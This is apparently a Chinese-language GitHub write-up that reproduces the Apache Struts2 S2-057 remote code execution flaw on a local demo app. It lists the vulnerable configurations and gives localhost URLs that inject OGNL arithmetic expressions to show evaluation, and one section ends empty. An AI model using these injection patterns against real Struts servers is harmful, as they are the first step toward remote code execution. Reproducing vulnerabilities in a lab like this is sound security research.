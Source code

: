 ## S2-057漏洞验证

### 1.环境搭建
1. 下载最新的受影响版本：http://archive.apache.org/dist/struts/  Struts2 2.3.34 
2. 漏洞介绍  
	该漏洞由安全研究员Man YueMo发现，在Struts2开发框架中使用namespace功能定义XML配置时，如果该值未被设置且上层动作配置（Action Configuration）中未配置或用通配符namespace，可能导致远程代码执行。同理，URL标签未设置value和action值且上层动作未设置或采用通配符namespace时，也可能导致远程代码执行。  
3. 通过业界的分析博客，由四种受影响的使用，在测试Demo中，仅仅验证触发了Redirect action、URL tag和postback result，而Action chain验证则失败，暂时未找到原因。  
	1. Redirect action 
	2. Action chain
	3. Postback result
	4. \<s:url includeParams="get"\>
4. 使用下载的Struts2，创建web工程，实现以上几处功能，见struts2目录中的代码

* 注意：在最初验证漏洞时，疏忽了一个配置项struts.mapper.alwaysSelectFullNamespace = true(是否总用最后一个斜线前的URL段作为namespace)，该值在默认版本中设置为false，只有手动的改为true，才能出发相关漏洞。  
	<img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/1.png" />	

### 2.漏洞验证

1. Location跳转，回显数值计算结果:${(1+1)}  %{(1+2)}  
	验证redirectAction: http://localhost:8080/struts2/snow/${(10+2)}/action1.action?username=redirect&password=helloworld
  <img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/2.png" />	  
  验证Postback：http://localhost:8080/struts2/%25{(10+2)}/action1.action?username=postback&password=helloworld  
	<img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/4.png" />  
	
  <img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/4.png" />
  
  验证URL TAG：http://localhost:8080/struts2/shadow/%25{(1+14)}/help.action  
  <img src="https://github.com/shadow-horse/Learning-resource/blob/master/VulnerabilityAnalysis/S2-057/media/5.png" />
  
2. 



### 参考
https://xz.aliyun.com/t/2618  
https://github.com/Ivan1ee/struts2-057-exp  
https://lgtm.com/blog/apache_struts_CVE-2018-11776 
https://www.anquanke.com/post/id/157583   
